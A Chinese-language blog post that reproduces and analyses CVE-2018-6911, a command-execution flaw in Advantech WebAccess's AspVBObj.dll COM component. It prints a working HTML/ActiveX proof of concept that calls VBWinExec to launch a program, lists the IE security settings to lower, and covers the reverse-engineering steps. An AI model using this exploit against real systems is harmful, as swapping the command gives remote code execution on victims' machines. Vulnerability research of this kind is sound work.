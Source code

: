 ```yaml
---
title: CVE-2018-6911 Advantech WebAccess远程任意命令执行复现分析
date: 2021-02-06 17:25:48
tags:
cover: https://gitee.com/tutucoo/images/raw/master/uPic/Yx1Kja.jpg
---
```


## 漏洞概述 

Advantech Webaccess Node目录下的AspVBObj.dll文件中存在VBWinExec方法，该方法允许攻击者通过命令参数执行任意系统命令



## 环境准备

1.Windows 7 

2.Advantech WebAccess 8.2

3.IE 9



## 漏洞复现



 安装Advantech WebAccess 8.2

由于该漏洞是利用com组件，因此只要存在AspVBObj.dll文件即可完成EXP，安装完毕后，将EXP另存为html文件

```
<title>Advantech WebAccess Node8.3.0 "AspVBObj.dll" - Remote Code Execution</title>

<body> 
    <object id=rce classid="clsid:{55F52D11-CEA5-4D6C-9912-2C8FA03275CE}"></object>
    <SCRIPT>  
        function exploit() { 
            rce.VBWinExec("calc") 
        }  
    </SCRIPT> 
    <input language=JavaScript onclick=exploit() type=button value="Exploit-Me">
</body>

</HTML>	
```

打开IE选项-安全-自定义级别

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl3erp1j30d607wt9i.jpg)

 

设置“对未标记为可安全执行脚本的ActiveX控件初始化并执行”为启用

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl3xkx6j30es02qjrn.jpg)

 

 

 在Windows7上访问服务器的EXP网页，执行exp

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl05u9sj30gm06qq36.jpg)

  

命令顺利执行

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl4bvulj30c60dygnn.jpg)

 

 

 

## 漏洞原理

 

在html的object元素中定义clsid，可以用于Windows上的com组件的引用，clsid是该dll的统一唯一标识符，Windows中的com组件就是通过clsid来进行引用的。

根据它的clsid：{55F52D11-CEA5-4D6C-9912-2C8FA03275CE}在注册表中进行搜索

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl0mqggj30i007i74r.jpg)

 

可以找到它的键值，AspVBObj

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl120kuj30rg0h0acu.jpg)

 

 

 

可以猜测这是它的一个dll文件，在C:\WebAccess\Node目录下找到AspVBObj.dll，拖进IDA进行逆向分析，打开字符串小窗口看到一个VBWinExec函数

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdkznvuej30ya0b2413.jpg)

 

根据经验可以判断这个很可能是个命令执行的函数，根据poc，可以看到这个命令执行的函数使用方法是直接传递字符串calc实现了弹出系统自带计算器

 

## 总结

经测试在Advantech WebAccess 8.2版本中也存在该漏洞，可以成功执行EXP，基于该漏洞的类型，影响的版本可能比较广泛。